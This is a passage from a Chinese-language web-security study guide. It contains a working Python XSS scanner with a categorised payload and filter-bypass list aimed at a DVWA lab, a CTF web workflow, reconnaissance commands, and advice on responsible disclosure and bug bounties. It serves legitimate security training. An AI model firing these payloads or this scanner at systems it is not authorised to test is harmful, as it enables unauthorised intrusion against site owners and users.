2. 理解不同上下文（HTML/JS/属性/URL）的注入方式
3. 理解基本的WAF绕过技术
4. 理解CSP（内容安全策略）对XSS的影响
"""

import requests
import re
from urllib.parse import urljoin, urlencode, urlparse, parse_qs
from bs4 import BeautifulSoup
import time


class XSSScanner:
    """XSS漏洞扫描器"""

    # 按上下文分类的payload
    PAYLOADS = {
        'html_injection': [
            '<script>alert("XSS")</script>',
            '',
            '<svg onload=alert("XSS")>',
            '<details open ontoggle=alert("XSS")>',
            '<math><mtext><table><mglyph><style><!--</style>',
        ],
        'attribute_injection': [
            '" onmouseover="alert(\'XSS\')"',
            '\' onmouseover=\'alert("XSS")\'',
            '" onfocus="alert(\'XSS\')" autofocus="',
            '" style="background:url(javascript:alert(\'XSS\'))"',
        ],
        'javascript_injection': [
            '\';alert("XSS");//',
            '\";alert("XSS");//',
            '</script><script>alert("XSS")</script>',
            '\\x3cscript\\x3ealert("XSS")\\x3c/script\\x3e',
        ],
        'url_injection': [
            'javascript:alert("XSS")',
            'data:text/html,<script>alert("XSS")</script>',
            'javascript:/*--></title></style></textarea></script></xmp><svg/onload=\'+/"/+/onmouseover=1/+/[*/[]/+alert("XSS")//\'>',
        ],
        'filter_bypass': [
            '<ScRiPt>alert("XSS")</ScRiPt>',
            '',
            '<svg/onload=alert`XSS`>',
            '">',
            '<iframe srcdoc="<script>alert(\'XSS\')</script>">',
        ]
    }

    def __init__(self, target_url, cookies=None):
        self.target_url = target_url
        self.session = requests.Session()
        if cookies:
            self.session.cookies.update(cookies)
        self.session.headers.update({
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'
        })
        self.findings = []

    def discover_params(self):
        """发现页面中的表单和URL参数"""
        print(f"[*] 扫描页面: {self.target_url}")
        params = set()

        try:
            resp = self.session.get(self.target_url)
            soup = BeautifulSoup(resp.text, 'html.parser')

            # 发现表单中的input参数
            for form in soup.find_all('form'):
                for input_tag in form.find_all(['input', 'textarea', 'select']):
                    name = input_tag.get('name')
                    if name:
                        params.add(name)

            # 发现URL中的参数
            for link in soup.find_all('a', href=True):
                parsed = urlparse(link['href'])
                query_params = parse_qs(parsed.query)
                params.update(query_params.keys())

        except requests.RequestException as e:
            print(f"  [-] 请求失败: {e}")

        print(f"  [+] 发现 {len(params)} 个参数: {params}")
        return list(params)

    def scan_param(self, param_name, method='GET'):
        """扫描单个参数的XSS漏洞"""
        results = []

        for category, payloads in self.PAYLOADS.items():
            for payload in payloads:
                try:
                    if method == 'GET':
                        url = f"{self.target_url}?{urlencode({param_name: payload})}"
                        resp = self.session.get(url)
                    else:
                        resp = self.session.post(self.target_url, data={param_name: payload})

                    # 检查payload是否原样出现在响应中（反射型XSS）
                    if payload in resp.text:
                        results.append({
                            'param': param_name,
                            'payload': payload,
                            'type': 'reflected',
                            'category': category,
                            'method': method
                        })
                        print(f"  [!] 反射型XSS: 参数={param_name}, 类型={category}")
                        print(f"      Payload: {payload[:60]}...")

                    # 检查编码后的payload（可能需要进一步分析）
                    elif payload.replace('<', '&lt;') not in resp.text:
                        # payload被部分编码，可能存在绕过机会
                        pass

                except requests.RequestException:
                    continue

                # 避免触发频率限制
                time.sleep(0.1)

        return results

    def check_csp(self):
        """检查内容安全策略（CSP）"""
        try:
            resp = self.session.get(self.target_url)
            csp = resp.headers.get('Content-Security-Policy', '')
            if csp:
                print(f"[*] CSP策略: {csp[:200]}")
                # 分析CSP是否可绕过
                if "'unsafe-inline'" in csp:
                    print("  [!] CSP允许unsafe-inline，XSS可能可行")
                if "'unsafe-eval'" in csp:
                    print("  [!] CSP允许unsafe-eval，XSS可能可行")
                if "data:" in csp:
                    print("  [!] CSP允许data: URI，可能被绕过")
            else:
                print("[*] 未检测到CSP策略（XSS更容易成功）")
        except requests.RequestException:
            pass

    def full_scan(self):
        """执行完整扫描"""
        print(f"{'='*60}")
        print(f"XSS扫描目标: {self.target_url}")
        print(f"{'='*60}")

        # 检查CSP
        self.check_csp()

        # 发现参数
        params = self.discover_params()

        # 扫描每个参数
        for param in params:
            print(f"\n[*] 测试参数: {param}")
            results = self.scan_param(param)
            self.findings.extend(results)

        # 输出报告
        self.report()

    def report(self):
        """输出扫描报告"""
        print(f"\n{'='*60}")
        print(f"扫描报告")
        print(f"{'='*60}")
        if self.findings:
            print(f"发现 {len(self.findings)} 个XSS漏洞：")
            for i, f in enumerate(self.findings, 1):
                print(f"\n  {i}. 类型: {f['type']} ({f['category']})")
                print(f"     参数: {f['param']}")
                print(f"     方法: {f['method']}")
                print(f"     Payload: {f['payload'][:80]}")
        else:
            print("未发现XSS漏洞")
        print(f"{'='*60}")


# 使用示例
if __name__ == '__main__':
    scanner = XSSScanner(
        target_url='http://localhost:8081/vulnerabilities/xss_r/',
        cookies={'PHPSESSID': 'your-session-id', 'security': 'low'}
    )
    scanner.full_scan()
```

### 14.39.3 项目三：搭建并攻防完整的漏洞靶场

**目标**：同时锻炼攻击和防御能力。先找到漏洞，再修复漏洞，验证修复效果。

```python
# 项目规划：构建一个包含OWASP Top 10漏洞的Flask Web应用
# 然后分三个阶段完成：

# 阶段1：攻击阶段（1周）
# - 使用手动测试+工具扫描发现所有漏洞
# - 记录每个漏洞的详细信息（位置、payload、影响）
# - 编写漏洞利用脚本

# 阶段2：修复阶段（1周）
# - 逐个修复发现的漏洞
# - 使用安全编码最佳实践
# - 添加安全Header（CSP、X-Frame-Options等）

# 阶段3：验证阶段（3天）
# - 重新测试修复后的应用
# - 确认漏洞已修复且功能正常
# - 尝试绕过自己的修复（防御深度测试）

# 完整靶场代码见 self-study/vulnapp/ 目录
# 以下是漏洞清单模板：

VULNERABILITY_CHECKLIST = """
# OWASP Top 10 漏洞清单 - 练习用

## A01:2021 访问控制失效
- [ ] IDOR（不安全的直接对象引用）
- [ ] 水平越权（访问同级别用户的资源）
- [ ] 垂直越权（低权限用户访问高权限功能）
- [ ] 未受保护的管理接口
- [ ] 目录遍历

## A02:2021 加密失败
- [ ] 明文传输密码
- [ ] 弱哈希算法（MD5/SHA1不加盐）
- [ ] 硬编码密钥
- [ ] 不安全的随机数生成

## A03:2021 注入
- [ ] SQL注入（联合查询/盲注/堆叠）
- [ ] NoSQL注入
- [ ] 命令注入
- [ ] 模板注入（SSTI）
- [ ] LDAP注入
- [ ] XPath注入

## A04:2021 不安全设计
- [ ] 缺少速率限制
- [ ] 信息过度暴露
- [ ] 缺少输入验证

## A05:2021 安全配置错误
- [ ] 默认凭据
- [ ] 调试模式开启
- [ ] 目录列表开启
- [ ] 不必要的功能/端口/服务
- [ ] 缺少安全Header

## A06:2021 脆弱和过时的组件
- [ ] 使用已知漏洞的库版本
- [ ] 过时的依赖

## A07:2021 身份和认证失败
- [ ] 弱密码策略
- [ ] 无暴力破解防护
- [ ] Session固定攻击
- [ ] JWT算法混淆

## A08:2021 软件和数据完整性故障
- [ ] 不安全的反序列化
- [ ] 不安全的文件上传
- [ ] CI/CD管道安全

## A09:2021 安全日志和监控失败
- [ ] 敏感操作未记录日志
- [ ] 日志中记录了敏感信息
- [ ] 缺少异常告警

## A10:2021 服务端请求伪造（SSRF）
- [ ] 基础SSRF（访问内部服务）
- [ ] SSRF绕过（重定向、DNS重绑定）
"""
```

### 14.39.4 项目四：CTF竞赛专项训练

**目标**：通过CTF竞赛提升综合安全能力。

```python
# CTF Web类题目常见题型和解题框架

CTF_WEB_FRAMEWORK = """
## Web题目解题通用流程

### 第一步：信息收集（5分钟）
1. 查看页面源码（注释、隐藏字段、JS文件）
2. 检查HTTP响应头（Server、X-Powered-By、Set-Cookie）
3. 检查 robots.txt、sitemap.xml、.git/、.DS_Store
4. 检查 .well-known/、crossdomain.xml
5. 扫描目录（gobuster/ffuf）
6. 检查子域名（如果允许）

### 第二步：功能分析（10分钟）
1. 枚举所有功能点（登录、注册、上传、搜索、API等）
2. 测试每个输入点（参数、Header、Cookie、文件名）
3. 记录正常请求的响应基线

### 第三步：漏洞测试（30分钟）
根据功能选择测试方向：
- 登录功能 → SQL注入、用户名枚举、JWT问题
- 搜索功能 → SQL注入、XSS、SSTI
- 上传功能 → 文件上传绕过、路径穿越
- API接口 → 参数篡改、权限绕过、SSRF
- Session → Session固定、Cookie伪造

### 第四步：深入利用（持续）
- 从读取flag文件入手：../flag.txt, /flag, /etc/flag
- RCE后：cat /flag*、find / -name '*flag*' 2>/dev/null
- 数据库中：SELECT * FROM flag; SHOW TABLES;
"""

# CTF练习平台推荐（按难度排序）
CTF_PLATFORMS = """
1. CTFHub (ctfhub.com) - 技能树模式，适合入门
2. BUUCTF (buuoj.cn) - 国内最全的CTF题目集合
3. 攻防世界 (adworld.xctf.org.cn) - XCTF官方练习平台
4. picoCTF - CMU出品，适合初学者
5. OverTheWire - 经典Wargame
6. Hack The Box - 高难度，适合进阶
"""
```

## 14.40 持续学习资源

安全领域的知识更新速度极快，持续学习是安全从业者的基本素养。

### 14.40.1 推荐书籍

| 书名 | 作者 | 适合阶段 | 推荐理由 |
|------|------|---------|---------|
| 《Web Application Hacker's Handbook》 | Dafydd Stuttard, Marcus Pinto | 中-高级 | Web安全圣经，系统性最强，覆盖所有漏洞类型 |
| 《Real-World Bug Hunting》 | Peter Yaworski | 初-中级 | 以真实漏洞赏金报告为案例，实用性强 |
| 《Tangled Web》 | Michal Zalewski | 中-高级 | 深入浏览器安全，理解Web安全的底层机制 |
| 《SQL注入攻击与防御》 | Justin Clarke | 初-中级 | SQL注入专题的经典教材 |
| 《Black Hat Python》 | Justin Seitz | 中级 | Python安全编程，工具开发必备 |
| 《Hacking: The Art of Exploitation》 | Jon Erickson | 中-高级 | 理解漏洞的底层原理（内存、网络） |
| 《渗透测试实战第三版》 | Georgia Weidman | 初-中级 | 入门级渗透测试完整流程 |
| 《白帽子讲Web安全》 | 吴翰清 | 初-中级 | 中文Web安全经典，阿里安全团队出品 |

### 14.40.2 在线学习资源

**核心学习平台**（免费）：
- **OWASP官方文档**（owasp.org）：最权威的安全标准和指南，所有OWASP项目的官方文档都值得精读
- **PortSwigger Blog**：最新的Web安全研究和技术文章，每周更新，质量极高
- **HackerOne Hacktivity**：公开的漏洞赏金报告，学习真实挖洞思路和报告写法

**视频学习资源**：
- **LiveOverflow**（YouTube）：最优质的安全教学频道，讲解清晰，实战性强
- **John Hammond**（YouTube）：CTF解题和安全教程，适合跟练
- **STÖK**（YouTube）：Bug Bounty实战直播和教程
- **IppSec**（YouTube）：HTB靶机解题视频，每个靶机都有完整讲解
- **PwnFunction**（YouTube/Web）：动画讲解Web安全概念，适合入门理解

**中文资源**：
- **先知社区**（xianzhisecurity.com）：国内高质量安全技术社区
- **安全客**（anquanke.com）：安全资讯和技术文章
- **FreeBuf**（freebuf.com）：安全新闻和漏洞分析
- **看雪论坛**（kanxue.com）：逆向和漏洞研究

### 14.40.3 社区与交流

```mermaid
graph TD
    A[安全学习社区] --> B[技术交流]
    A --> C[实战练习]
    A --> D[职业发展]
    
    B --> B1[先知社区/安全客<br>技术文章分享]
    B --> B2[Twitter安全圈<br>@infosec社区]
    B --> B3[Discord/Slack<br>安全频道]
    
    C --> C1[CTF竞赛<br>Hack The Box]
    C --> C2[Bug Bounty<br>HackerOne/Bugcrowd]
    C --> C3[安全会议<br>DEF CON/KCon]
    
    D --> D1[安全认证<br>OSCP/CEH/CISSP]
    D --> D2[开源贡献<br>漏洞披露/工具开发]
    D --> D3[安全博客<br>建立个人品牌]
    
    style A fill:#e94560,stroke:#fff,color:#fff
    style B fill:#0f3460,stroke:#533483,color:#fff
    style C fill:#0f3460,stroke:#533483,color:#fff
    style D fill:#0f3460,stroke:#533483,color:#fff
```

**安全会议推荐**：
- **DEF CON**（全球最大的黑客大会，每年8月拉斯维加斯）
- **Black Hat**（最专业的安全会议，有培训和演讲）
- **KCon**（国内顶级安全会议，知道创宇主办）
- **XCON**（国内老牌安全会议）
- **HITB**（亚洲知名安全会议）

**认证路径建议**：
- 入门：CompTIA Security+ → 理解安全基础概念
- 进阶：CEH（道德黑客认证）→ 系统学习攻击技术
- 实战：OSCP（Offensive Security）→ 24小时实战考试，含金量最高
- 管理：CISSP → 安全管理和架构方向

## 14.41 学习方法与心法

技术可以速成，但安全思维需要长期培养。这一节讨论如何高效地学习Web安全——不是学什么，而是怎么学。

### 14.41.1 刻意练习框架

安全技能的提升遵循"刻意练习"原则——不是简单重复，而是有目标、有反馈、有难度梯度的练习。

**每次练习的四步循环**：



**1. 尝试（Try）**：拿到题目/目标后，独立思考和尝试至少30分钟。不要看Writeup。30分钟的挣扎比看10篇Writeup更有价值，因为挣扎的过程在训练你的安全直觉。

**2. 对比（Compare）**：如果独立尝试失败，查看提示或Writeup。重点不是答案本身，而是对比你的思路和正确思路的差异——你在哪里走偏了？漏掉了什么信息？

**3. 理解（Understand）**：不是"知道怎么解"，而是"理解为什么这样解"。问自己三个问题：
- 这个漏洞的根本原因是什么？（代码层面/设计层面）
- 这个payload为什么能工作？（技术原理）
- 如果我是开发者，如何从根本上防止这个漏洞？（防御视角）

**4. 复现（Replicate）**：一周后不看笔记重新做同一道题。如果能独立完成，说明真正掌握了。如果不能，重复步骤2-3。

### 14.41.2 建立个人知识库

安全知识体系化是区分新手和专家的关键。推荐使用Obsidian/Notion/语雀等工具建立个人安全知识库：

```markdown
# 知识库结构模板

web-security/
├── 01-漏洞类型/
│   ├── SQL注入/
│   │   ├── 原理.md
│   │   ├── 检测方法.md
│   │   ├── 绕过技巧.md
│   │   ├── 防御方案.md
│   │   └── 经典案例/
│   │       ├── CVE-2023-xxxxx.md
│   │       └── 漏洞赏金-xxx.md
│   ├── XSS/
│   │   ├── 反射型.md
│   │   ├── 存储型.md
│   │   ├── DOM型.md
│   │   └── CSP绕过.md
│   └── ... (每类漏洞一个目录)
├── 02-工具使用/
│   ├── Burp Suite/
│   ├── SQLMap/
│   ├── Nuclei/
│   └── 自定义脚本/
├── 03-靶场笔记/
│   ├── DVWA/
│   ├── HTB/
│   └── PortSwigger/
├── 04-漏洞赏金/
│   ├── 报告模板.md
│   ├── 提交记录.md
│   └── 挖洞经验/
└── 05-学习计划/
    ├── 路线图.md
    ├── 每周计划.md
    └── 技能评估.md
```

**每篇笔记的标准格式**：

```markdown
# 漏洞名称

## 概述
一句话描述这个漏洞是什么、为什么危险。

## 原理
技术层面解释漏洞的成因，包括代码示例或架构图。

## 检测方法
### 手动检测
具体步骤和payload。

### 自动检测
工具命令和参数。

## 绕过技巧
当存在防护时如何绕过（WAF、输入过滤、编码限制等）。

## 防御方案
开发者应该如何修复（给出修复前后的代码对比）。

## 经典案例
真实CVE或漏洞赏金报告的链接和分析。

## 个人心得
自己在练习中踩过的坑和总结的技巧。
```

### 14.41.3 攻防结合思维

安全学习最大的误区是"只学攻击不学防御"。真正的安全专家必须攻防兼备：

| 学习方向 | 具体做法 | 价值 |
|---------|---------|------|
| 攻击→防御 | 学完每种攻击后，立即学习对应的防御代码 | 理解漏洞的完整生命周期 |
| 防御→攻击 | 阅读安全编码指南时，思考每条规则防范的是什么攻击 | 理解防御措施的局限性 |
| 代码审计 | 在GitHub上找开源项目做安全审计 | 真实代码中的漏洞比靶场复杂得多 |
| 安全开发 | 在自己的项目中实践安全编码 | 从开发者视角理解安全 |
| 漏洞分析 | 阅读CVE详情和安全公告 | 理解真实漏洞的成因和影响 |

### 14.41.4 常见误区与纠正

**误区1：工具依赖症**
- 表现：只会用SQLMap跑SQL注入，不理解背后的原理
- 纠正：每个工具使用前，先用手工方式完成同样的任务。SQLMap的每个参数对应一种注入技术，理解参数就是理解技术
- 练习：不使用任何自动化工具，纯手工完成DVWA的SQL注入和XSS挑战

**误区2：Writeup依赖症**
- 表现：遇到不会的题立刻查Writeup，看懂了就以为会了
- 纠正：Writeup是"参考答案"不是"标准答案"。看懂≠会做。必须在不看Writeup的情况下独立复现
- 练习：每个Writeup看完后，关闭页面，独立重新做一遍

**误区3：广而不精**
- 表现：什么漏洞类型都了解一点，但没有一个深入掌握
- 纠正：先在一个方向做到极致（如SQL注入），再扩展到其他方向。深度带来迁移能力
- 练习：选一个漏洞类型，完成该类型的所有PortSwigger实验室，阅读所有相关论文

**误区4：忽视信息收集**
- 表现：拿到目标直接开始漏洞测试，不收集信息
- 纠正：80%的漏洞发现来自于充分的信息收集。技术栈版本、隐藏接口、配置文件泄露往往比直接测试更有效
- 练习：对每个目标花30分钟做信息收集，记录所有发现

**误区5：不记笔记**
- 表现：做完练习就忘，下次遇到类似问题又要从头学
- 纠正：知识管理是安全学习的倍增器。每做完一个练习，花10分钟记录关键信息
- 练习：建立个人知识库（参考14.41.2），每周回顾一次

**误区6：只做CTF不做真实测试**
- 表现：CTF做得很好，但面对真实系统无从下手
- 纠正：CTF是"有边界的挑战"，真实系统是"无边界的探索"。CTF培养解题技巧，真实测试培养探索能力
- 练习：CTF练习达到一定水平后，开始在HackerOne上做公开项目的漏洞挖掘

### 14.41.5 时间管理与学习计划

**每周学习时间分配建议**：

| 活动 | 每周时间 | 占比 | 说明 |
|------|---------|------|------|
| 靶场练习 | 6-8小时 | 40% | 核心技能提升，PortSwigger/HTB/DVWA |
| 工具学习 | 2-3小时 | 15% | 掌握新工具或深入已有工具 |
| 阅读学习 | 3-4小时 | 20% | 书籍、博客、漏洞报告、安全公告 |
| 笔记整理 | 2-3小时 | 15% | 整理知识库、复盘练习 |
| 项目实践 | 2-3小时 | 10% | 自建靶场、工具开发、代码审计 |

**里程碑检验**：

```python
# 三个月自评检查清单
MILESTONES = {
    "第1个月": {
        "技能": [
            "能手动完成DVWA Low+Medium所有挑战",
            "能独立配置和使用Burp Suite",
            "理解SQL注入、XSS、CSRF的原理",
            "能用Python发送HTTP请求和解析响应",
        ],
        "知识": [
            "能解释HTTP协议的安全含义",
            "能解释同源策略和Cookie安全属性",
            "能区分OWASP Top 10各类漏洞",
        ]
    },
    "第2个月": {
        "技能": [
            "完成PortSwigger SQL注入+XSS所有实验室",
            "能在HTB完成Web类Medium靶机",
            "能编写基础的漏洞扫描脚本",
            "能使用SQLMap进行注入利用",
        ],
        "知识": [
            "理解WAF绕过的常见技术",
            "理解认证安全（Session、JWT、OAuth）",
            "能阅读Web应用的源码找安全问题",
        ]
    },
    "第3个月": {
        "技能": [
            "独立完成中型Web应用的安全评估",
            "能编写Nuclei自定义扫描模板",
            "在HackerOne上提交至少1个有效漏洞",
            "建立完整的个人安全测试工具链",
        ],
        "知识": [
            "理解业务逻辑漏洞的检测方法",
            "理解代码审计的方法论",
            "能编写安全的Web应用代码",
        ]
    }
}
```

### 14.41.6 从练习到实战的过渡

当你完成了上面的练习后，下一步就是进入真实世界：

**1. 负责任的漏洞披露（Responsible Disclosure）**

在真实系统上发现漏洞后，必须遵守负责任的披露原则：
- 不要未经授权测试非自己拥有的系统
- 只在明确授权的范围内进行测试（Bug Bounty平台的scope）
- 发现漏洞后立即报告给相关方，不要公开细节
- 给予修复方合理的时间（通常90天）
- 不要利用漏洞获取或泄露用户数据

**2. 漏洞赏金入门步骤**：

```bash
# 第一步：注册平台
# HackerOne: https://hackerone.com（最大平台）
# Bugcrowd: https://bugcrowd.com
# 补天: https://www.butian.net（国内）
# 漏洞盒子: https://www.vulbox.com（国内）

# 第二步：选择目标
# - 选择scope明确的项目（明确说明哪些可以测试）
# - 选择响应速度快的项目（Triaged效率高）
# - 选择有公开Hacktivity的项目（可以学习别人的报告）

# 第三步：信息收集
# - 子域名枚举：subfinder -d target.com
# - 端口扫描：nmap -sV target.com
# - 目录扫描：ffuf -u https://target.com/FUZZ -w wordlist.txt
# - 技术识别：whatweb target.com

# 第四步：系统性测试
# - 从信息收集结果中选择高价值目标
# - 使用OWASP Testing Guide作为测试清单
# - 记录所有测试过程和结果

# 第五步：撰写报告
# - 标题清晰：漏洞类型 + 影响
# - 复现步骤详细：任何人都能按步骤复现
# - 影响评估准确：说明实际危害
# - 提供修复建议：展示专业性
```

**3. 漏洞报告模板**：

```markdown
# 漏洞报告：[漏洞类型] - [简要描述]

## 漏洞类型
OWASP分类 + CWE编号

## 受影响的URL/端点
https://target.com/api/v1/users

## 漏洞描述
详细描述发现了什么问题，为什么这是一个安全漏洞。

## 复现步骤
1. 访问 https://target.com
2. 登录用户A的账号
3. 访问 https://target.com/api/v1/users/123/profile
4. 修改请求中的用户ID从123改为456
5. 观察到可以查看用户B的个人信息

## 影响评估
攻击者可以访问任意用户的个人信息，包括邮箱、手机号、地址等。
影响所有用户（预估影响范围：xxx用户）。

## 修复建议
在API端点添加权限验证，确保用户只能访问自己的数据：
```python
# 修复前
def get_profile(user_id):
    return db.query(User).get(user_id)

# 修复后
def get_profile(user_id, current_user):
    if user_id != current_user.id and not current_user.is_admin:
        raise PermissionDenied()
    return db.query(User).get(user_id)
```

***

> **最后的话**：Web安全是一场永无止境的攻防博弈。攻击者在进化，防御者也在进化。保持好奇心，保持学习的饥饿感，坚持动手实践——这是从新手到专家的唯一路径。不要追求"学完"，安全领域没有学完的那一天。追求的是"学会学习"——掌握方法论，建立知识体系，培养安全直觉。当你拿到一个目标时，你的大脑自动开始分析攻击面，那你已经是一个合格的安全研究者了。
